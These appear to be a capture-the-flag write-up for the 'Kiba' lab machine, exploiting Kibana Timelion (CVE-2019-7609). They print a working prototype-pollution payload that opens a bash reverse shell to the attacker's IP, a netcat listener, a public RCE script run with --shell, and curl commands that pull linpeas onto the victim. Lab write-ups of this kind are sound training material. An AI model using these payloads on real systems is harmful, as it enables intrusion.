 
## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![[Screen Shot 2024-10-04 at 09.09.24.png]]

![[Screen Shot 2024-10-04 at 09.45.27.png]]

What is Kibana ?
![[Screen Shot 2024-10-04 at 09.10.54.png]]

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
-  https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![[Screen Shot 2024-10-04 at 09.16.33.png]]


Although I have taken reverse shell connection back, I will also try a python script that handles RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![[Screen Shot 2024-10-04 at 09.59.31.png]]![[Screen Shot 2024-10-04 at 10.00.59.png]]



Now it works ! After I restarted the machine, I was able to get my reverse shell !

![[Screen Shot 2024-10-04 at 11.11.31.png]]

I have tried to run linpeas on tmp folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through /home/kiba

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download linpeas from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to linpeas.sh
```
chmod +x linpeas.sh
```

4. Examine carefully  the linpeas output
- I found really useful evidence to escalate our privileges

![[Screen Shot 2024-10-04 at 11.46.43 1.png]]


